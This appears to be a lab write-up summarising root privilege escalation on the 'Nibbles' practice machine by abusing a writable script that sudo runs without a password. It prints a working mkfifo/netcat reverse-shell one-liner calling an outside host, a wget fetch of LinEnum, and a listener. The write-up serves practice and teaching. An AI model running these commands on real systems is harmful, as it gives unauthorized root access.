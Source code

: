 # Nibbles — Privilege Escalation (Summary)

**Goal:** Escalate privileges from `nibbler` to `root` after obtaining a reverse shell.

---

## Quick summary
- Unzipped `personal.zip` and found `personal/stuff/monitor.sh`.
- `monitor.sh` is owned by `nibbler` and is writable by that user.
- Downloaded `LinEnum.sh` via a Python HTTP server to automate enumeration.
- LinEnum revealed that `nibbler` can run `/home/nibbler/personal/stuff/monitor.sh` via `sudo` **without a password** (NOPASSWD).
- Because `monitor.sh` is writable by `nibbler`, appending a reverse-shell payload and executing it with `sudo` yields a root shell.
- Caught the root shell on a listening `nc` (netcat) and retrieved `root.txt`.

---

## Key commands & steps

**Unzip personal.zip**
```bash
unzip personal.zip
# creates personal/stuff/monitor.sh
```

**Inspect monitor.sh**
```bash
cat personal/stuff/monitor.sh
# file is owned by nibbler and writable
```

**Host LinEnum on attacker machine**
```bash
sudo python3 -m http.server 8080
# on attacker: wget http://<attacker_ip>:8080/LinEnum.sh from target
```

**Make LinEnum executable and run**
```bash
chmod +x LinEnum.sh
./LinEnum.sh
# reveals sudo NOPASSWD for monitor.sh
```

**Append reverse shell to monitor.sh (make backup first)**
```bash
cp monitor.sh monitor.sh.bak
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

**Execute monitored script as root**
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Listener (attacker)**
```bash
nc -lvnp 8443
# catch root shell
id
# uid=0(root) gid=0(root) groups=0(root)
```

---

## Observations & suggestions
- Writable files that are executable via `sudo` with NOPASSWD are high-risk — if you can modify them, you can escalate.
- Always make a backup before editing files used for privilege escalation to avoid breaking functionality.
- After gaining root, collect `root.txt` and conduct post-exploitation enumeration responsibly (only in authorized labs).

---

## Next steps (practice)
- Remove the appended payload and restore the original `monitor.sh` from backup.
- Try alternative escalation methods: inspecting SUID binaries, weak sudoers entries, cron jobs, and sensitive config files.
- Practice the same steps on different boxes to build muscle memory.

---

*End of summary — save as `Nibbles-Privilege-Escalation-summary.md` in your journal.*
